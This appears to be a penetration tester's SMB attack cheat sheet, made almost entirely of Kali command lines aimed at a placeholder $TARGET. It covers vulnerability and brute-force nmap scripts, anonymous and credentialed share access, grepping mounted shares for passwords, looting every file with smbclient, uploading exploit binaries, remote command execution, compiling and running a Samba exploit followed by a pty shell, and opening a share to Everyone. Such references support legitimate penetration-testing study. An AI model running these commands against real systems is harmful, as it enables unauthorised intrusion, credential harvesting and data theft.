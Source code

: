 
#### Quick Wins (require creds)

[[zz._Gaining Shell Access (psexec.py)]]
[[zz._Gaining Shell Access (smbexec.py)]]
[[zz._Gaining Shell Access (wmiexec.py)]]

#### nmap vuln check:
```bash - kali
nmap --script smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse -p445 $TARGET -Pn
```

#### SMB Mounting
```bash - kali
sudo apt install cifs-utils
```

```bash - kali
mkdir ./$SHARE
```

```bash - kali
sudo mount -t nfs $TARGET:/$SHARE/
```

```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o user=,password=
```
OR
```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o username=$USER,password=$PASSWORD,domain=$DOMAIN
```

```bash - kali
grep -R password ./$SHARE
```

[[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep]] for lootz.

```bash - kali
sudo umount ./mount
```

#### SMB Enumeration

==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

Enum4linux-ng:
```bash - kali
cd /opt/ && sudo git clone https://github.com/cddmp/enum4linux-ng && cd -
```

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```

nmap scans:
```bash - kali
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 $TARGET
```

```bash - kali
nmap --script smb-brute.nse -p445 $TARGET
```

smbmap:
```bash - kali
smbmap -H $TARGET -P 445
```

```bash - kali
smbmap -u null -p "" -H $TARGET -P 445
```

[[Port 139 445 - SMB ~#smbmap.py]]

List share and gain access with smbclient:
```bash - kali
smbclient -L \\\\$TARGET\\ -N -p 445
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

smbclient anonymous login:
```bash - kali
smbclient -L $TARGET -U " "%" "
```

```bash - kali
smbclient \\\\$TARGET\\scripts$ -U " "%" "
```

[[Port 139 445 - SMB ~#smbclient]]
#### smbmap.py
```bash - kali
smbmap -H $TARGET
```

```bash - kali
smbmap -H $TARGET -r 'home'
```

```bash - kali
smbmap -H $TARGET -r 'home\$USER'
```

### smbmap Downloading files:
```bash - kali
smbmap -H $TARGET --download 'home\$USER\file.txt'
```

#### smbmap Uploading files:
```bash - kali
smbmap -H $TARGET --upload exploit.exe 'home\$USER\'
```

```bash - kali
smbmap -H $TARGET -P 445 --upload exploit.so 'Share/exploit.so' 
```

```bash - kali
smbmap -u $USER -p $PASSWORD -d $DOMAIN_NAME -x 'net group "Domain Admins" /domain' -H $TARGET
```

#### smbclient

```bash - kali
smbclient -L \\\\$TARGET -N -p 445
```

Using smbclient without creds:
```bash - kali
smbclient \\\\$TARGET\\share -p 445
```

Using smbclient to list shares (authenticated):
```bash - kali
smbclient -L \\\\$TARGET -U "$USER" -p $PASSWORD
```

Using smbclient with creds:
```bash - kali
smbclient \\\\$TARGET\\spray -U "$USER" -p $PASSWORD
```

#### using smbclient to download all files:

```bash - kali
mkdir SMBLoot && cd SMBLoot
```

Unauthenticated:
```bash - kali
smbclient '\\\\$TARGET\\$SHARE'
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

Authenticated:
```bash - kali
smbclient --user $USER //$TARGET/$SHARE $PASSWORD
```

```bash - kali
mask ""  
```

```bash - kali
recurse ON  
```

```bash - kali
prompt OFF  
```

```bash - kali
mget *
```

```bash - kali
exit
```

```bash - kali
cd ..
```

```bash - kali
find SMBLoot/ -type f
```


==2nd example==
```bash - kali
smbclient //$TARGET/$SHARE
```

```bash - kali
RECURSE ON
```

```bash - kali
PROMPT OFF
```

```bash - kali
mget *
```

#### Low Level Samba Exploit
```bash - kali
searchsploit -m 10
```

```bash - kali
gcc -o exploit-samba 10.c
```

```bash - kali
./exploit-samba -b 0 $TARGET
```

```bash - kali
python -c 'import pty;pty.spawn("/bin/bash")'
```

#### Windows share local folder with everyone

```command prompt - target
net share cshare C:\$SHARE /GRANT:Everyone,FULL
```
  
#### Unsafe nmap script
```bash kali
sudo nmap --script=smb-enum* --script-args=unsafe=1 $TARGET
```

#### Responder - File upload attack
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/